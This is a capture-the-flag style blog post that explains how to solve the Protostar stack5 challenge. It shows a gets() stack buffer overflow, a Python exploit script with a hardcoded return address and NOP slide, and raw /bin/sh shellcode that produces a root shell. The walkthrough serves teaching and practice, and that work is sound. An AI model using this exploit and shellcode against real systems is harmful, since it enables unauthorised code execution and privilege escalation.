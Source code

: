 ```yaml
---
layout: post
title: "Using shellcode: protostar stack5"
date: 2019-1-2
categories: jekyll update
---
```

For this challenge, there is no function that we will call. Rather, our goal now is to get root

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endhighlight %}

What we are given to work with here is simply a main function with a buffer of size 64 and a gets() function.

We can use python to test how many characters we need to input to trigger a crash. Because the buffer is the same size, I will try to use 76 "A"s, like before.

$ python -c 'print "A"*76' \| /opt/protostar/bin/stack5

$

If we run the program with 75 characters, it doesn't cause a crash. Therefore we can use 76 as our padding.

Besides being able to crash the program, it doesn't seem there is much in the program that we can exploit. This is where shellcode comes into play, being that we are able to inject our own machine instructions.

While writing your own shellcode is a very good skill to learn, for the sake of simplicity it may be a better idea to use someone else's. This way, there is no need to worry about if any errors come from the shellcode, or the exploit, there is only one variable: the exploit.

I grabbed some shellcode from shell-storm.org/shellcode. There's a lot of different shellcode, but I just used a simple /bin/sh one.

Essentially what we do now is begin constructing our exploit. I used python 2.7.

{% highlight python %}
offset = "A"*76

#address into the nop slide
eip = "\xe0\xf7\xff\xbf"

nop = "\x90"

#shellcode to call /bin/sh
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

print offset + eip + (nop * 78) + shellcode
{% endhighlight %}

What the exploit is doing is printing a sting. First we fill the buffer to let us overflow. Then the EIP is overwritten with an address I guessed would land us in the shellcode. This is followed by a somewhat large number of NOPs. NOPs are machine instructions which do nothing, so they are perfect for creating a "slide" into the shellcode. If the EIP which I guessed is anywhere in the memory with the NOPs, the processor will execute the do nothing instruction all the way until it reaches our shellcode, and executes that.

$ python exploit.py \| /opt/protostar/bin/stack5

$

This is strange, it doesn't seem to give any kind of a segfault, so what is going on here? It should either crash or give a shell. 

Our problem has to do with the way i/o is handled, and so we end up executing the program, but don't interact with it.

We need some way to interact with the shell, so we can use the cat command with a dash (-) after the file to cat.
This will allow us to interact with our shell

$ python exploit.py > e

$ cat e - \| /opt/protostar/bin/stack5

whoami

root


Our exploit works!

